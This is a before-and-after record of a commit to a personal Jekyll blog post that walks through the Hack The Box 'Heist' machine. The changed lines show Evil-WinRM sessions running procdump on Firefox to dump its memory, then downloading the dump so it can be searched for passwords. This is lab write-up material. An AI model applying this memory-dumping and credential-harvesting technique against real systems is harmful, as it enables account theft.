

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-12-01-Hackthebox-Heist-Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 15287 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded.

Commit message:
modify unneed lines

```diff
--- a/_posts/2019-12-01-Hackthebox-Heist-Walkthrough.md
+++ b/_posts/2019-12-01-Hackthebox-Heist-Walkthrough.md
@@ -544,7 +544,7 @@ Info: Upload successful!
 {% endhighlight %}
 
 Then, execute the "procdump.exe".<br>
-It generates a process file for the firefox.
+It generates a process file for the firefox and this time 5 files are created due to 4 processes of firefox.
 {% highlight shell %}
 *Evil-WinRM* PS C:\Users\Chase\Desktop> ./procdump.exe -ma 6728 -accepteula
 
@@ -559,17 +559,6 @@ Sysinternals - www.sysinternals.com
 
 *Evil-WinRM* PS C:\Users\Chase\Desktop>
 {% endhighlight %}
-
-Download the file to the localhost. "Evil-WinRM" has a command for that purpose.
-{% highlight shell %}
-*Evil-WinRM* PS C:\Users\Chase\Desktop> download firefox.exe_191202_022858.dmp
-Info: Downloading C:\Users\Chase\Desktop\firefox.exe_191202_022858.dmp to firefox.exe_191202_022858.dmp
-
-Info: Download successful!
-
-*Evil-WinRM* PS C:\Users\Chase\Desktop>
-{% endhighlight %}
-
 
 Try to analyze the process file.<br>
 To look for a word "password" in the process and we can find an URL parameter "password".
```
